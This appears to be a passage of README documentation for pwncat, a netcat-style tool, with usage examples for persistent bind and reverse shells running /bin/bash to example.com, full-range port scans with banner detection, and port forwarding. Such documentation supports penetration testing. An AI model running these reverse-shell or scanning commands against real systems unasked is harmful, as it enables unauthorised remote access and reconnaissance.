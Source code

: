### Summon shells
```bash
# Bind shell (accepts new clients after disconnect)
pwncat -l -e '/bin/bash' 8080 -k
```
```bash
# Reverse shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1
```
```bash
# Reverse UDP shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```

### Port scan
```bash
# [TCP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080
pwncat -z 10.0.0.1 1-65535
pwncat -z 10.0.0.1 1+1023

# [UDP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080 -u
pwncat -z 10.0.0.1 1-65535 -u
pwncat -z 10.0.0.1 1+1023 -u

# Use only IPv6 or IPv4
pwncat -z 10.0.0.1 1-65535 -4
pwncat -z 10.0.0.1 1-65535 -6 -u

# Add version detection
pwncat -z 10.0.0.1 1-65535 --banner
```

### Local port forward `-L` (listening proxy)
```bash
# Make remote MySQL server (remote port 3306) available on current machine
# on every interface on port 5000
pwncat -L 0.0.0.0:5000 everythingcli.org 3306
```
```bash
# Same, but convert traffic on your end to UDP
pwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u
```

### Remote port forward `-R` (double client proxy)
```bash
# Connect to Remote MySQL server (remote port 3306) and then connect to another
# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic
pwncat -R 10.0.0.1:4444 everythingcli.org 3306
```
```bash
# Same, but convert traffic on your end to UDP
pwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u
```


[Linux]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/linux.png "Linux"
[MacOS]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/osx.png "MacOS"
[Windows]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/windows.png "Windows"
[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[pwncat]: https://github.com/cytopia/pwncat
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza